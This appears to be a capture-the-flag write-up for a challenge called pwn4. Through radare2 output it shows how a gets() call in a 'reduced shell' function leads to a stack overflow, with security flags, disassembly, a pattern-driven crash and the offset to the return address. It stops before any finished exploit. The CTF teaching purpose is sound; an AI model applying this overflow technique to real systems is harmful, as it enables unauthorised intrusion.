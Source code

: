 # pwn4 write-up (? p)

remote server found at `nc pwn.ctf.tamu.edu 4324`

----

The binary use NX security mechanism: 

````python
[0x08048490]> i~arch,canary,nx,pic,relro
arch     x86
canary   false
nx       true
pic      false
relro    partial
````

Function `sym.main ()` has a function call to `sym.reduced_shell ()`

````python
[0x080485ef]> pdf
            ;-- eip:
┌ (fcn) sym.reduced_shell 404
│   sym.reduced_shell ();
│           ; var int INPUT @ ebp-0x1c
│           ; CALL XREF from 0x080487a8 (main + 37)
...
│           0x08048632      83c410         esp += 0x10
│           0x08048635      83ec0c         esp -= 0xc
│           0x08048638      8d45e4         eax = [INPUT]
│           0x0804863b      50             push eax                    ; char *s
│           0x0804863c      e8cffdffff     sym.imp.gets ()             ; char*gets(char *s)
````

Function `sym.reduced_shell ()` contains a `sym.imp.gets ()` call, with `local_1ch` variable, renamed to `INPUT`

````python
[0x080485ef]> afvd
var local_1ch = 0xffe4111c  0x080487a5  .... (LOAD0) (/home/vagrant/ctf/tamu18/pwn4/pwn4) main program R X 'add esp, 0x10' 'pwn4'
````

````python
[0x080485ef]> afvn local_1ch INPUT
````

Created a pattern using `ragg2 -P 300 -r > stdin` and reopen debugger.

````python
[0xf77b7030]> dc
I am a reduced online shell
Your options are:
1. ls
2. cal
3. pwd
4. whoami
5. exit
Input> Unkown Command

child stopped with signal 11
[+] SIGNAL 11 errno=0 addr=0x41414c41 code=1 ret=0
````

````python
[0x41414c41]> wopO 0x41414c41
32
````

````python
[0x08048641]> dmi
0x08048000 /home/vagrant/ctf/tamu18/pwn4/pwn4
0xf754b000 /lib/i386-linux-gnu/libc-2.19.so
0xf7706000 /lib/i386-linux-gnu/ld-2.19.so
````
